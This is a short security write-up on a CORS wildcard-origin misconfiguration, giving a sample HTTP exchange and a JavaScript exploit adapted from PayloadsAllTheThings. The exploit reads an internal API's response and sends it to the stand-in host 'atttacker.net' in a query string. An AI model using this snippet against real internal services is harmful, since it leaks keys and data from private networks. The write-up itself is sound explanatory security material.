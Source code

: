 # Wildcard origin

## Description 
Host allows requests to be made from any origin. 

**Severity**: Low

## Exploit
If the server responds with a wildcard origin `*`, the browser does never send the cookies.  
However, if the server does not require authentication, it's still possible to access the data on the server.  
This can happen on internal servers that are not accessible from the Internet.  
The attacker's website can then pivot into the internal network and access the server's data without authentication. 

### Example
**Vulnerable Implementation**

```http
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[private API key]"}
```

**Exploit**  
```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-example-wildcard-origin--without-credentials)
